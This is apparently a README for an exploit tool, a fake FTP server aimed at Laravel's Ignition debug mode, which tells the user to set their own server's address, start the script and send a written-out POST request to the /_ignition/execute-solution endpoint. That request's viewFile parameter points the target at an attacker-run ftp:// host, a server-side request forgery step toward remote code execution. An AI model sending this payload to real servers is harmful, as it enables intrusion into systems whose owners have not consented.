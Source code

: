 # laravel-debug-ftp-ssrf
A fake ftp server build for laravel~
Inspired by https://www.ambionics.io/blog/laravel-debug-rce. 

# How to use
1. Change the keyword `vps` to the address of your vps.
2. Then start the script.
3. Send the following request to the target server.
```
POST /_ignition/execute-solution HTTP/1.1
Host: damedane
Content-Type: application/json
Content-Length: ???

{ "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters":{
    "variableName":"233",
    "viewFile":"ftp://fan:root@vps-ip:vps-port/test"
  }
}
```
